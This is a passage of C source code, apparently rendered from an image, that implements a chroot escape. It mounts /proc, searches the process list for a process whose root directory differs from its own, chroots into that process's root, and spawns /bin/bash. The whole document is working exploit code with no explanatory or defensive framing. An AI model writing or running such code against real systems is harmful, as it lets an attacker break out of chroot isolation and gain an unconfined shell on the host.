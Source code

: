 ```c 

    if (mount("proc", "/proc", "proc", 0, NULL) < 0) {
        perror("mount /proc");
        exit(EXIT_FAILURE);
    }

    
    if (stat("/", &own_root_stat) < 0) {
        perror("stat /");
        exit(EXIT_FAILURE);
    }

    
    proc_dir = opendir("/proc");
    if (!proc_dir) {
        perror("opendir /proc");
        exit(EXIT_FAILURE);
    }

    while ((entry = readdir(proc_dir)) != NULL) {
        if (!isdigit(entry->d_name[0])) {
            continue; 
        }

        snprintf(proc_root, sizeof(proc_root), "/proc/%s/root", entry->d_name);

        if (stat(proc_root, &target_root_stat) == 0) {
            
            if (own_root_stat.st_ino != target_root_stat.st_ino) {
                found = 1;
                snprintf(target_root, sizeof(target_root), "/proc/%s/root", entry->d_name);
                break;
            }
        }
    }

    closedir(proc_dir);

    if (!found) {
        fprintf(stderr, "No suitable PID found for escaping chroot.\n");
        exit(EXIT_FAILURE);
    }

    printf("Using %s for escaping chroot.\n", target_root);

    if (chroot(target_root) < 0) {
        perror("chroot to target root");
        exit(EXIT_FAILURE);
    }

    printf("Successfully escaped chroot! Current directory:\n");
    system("ls /");

    
    system("/bin/bash");

    return 0;
}
```
